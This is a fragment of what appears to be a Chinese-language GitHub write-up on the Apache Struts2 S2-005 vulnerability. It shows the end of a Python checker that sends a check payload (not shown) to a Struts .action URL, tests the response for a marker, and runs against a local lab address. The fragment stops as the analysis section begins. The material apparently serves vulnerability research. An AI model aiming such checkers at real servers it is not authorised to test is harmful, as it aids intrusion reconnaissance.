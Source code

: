 ```python
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/example/HelloWorld.action'
        try:
            check_req = requests.get(self.url + self.check_payload, headers = self.headers, stream=True)
            if self.capta in check_req.raw.read(50).decode(encoding='utf-8'):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_005 = S2_005_BaseVerify('http://127.0.0.1:8090/S2-005')
    S2_005.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](images/流程图.png)
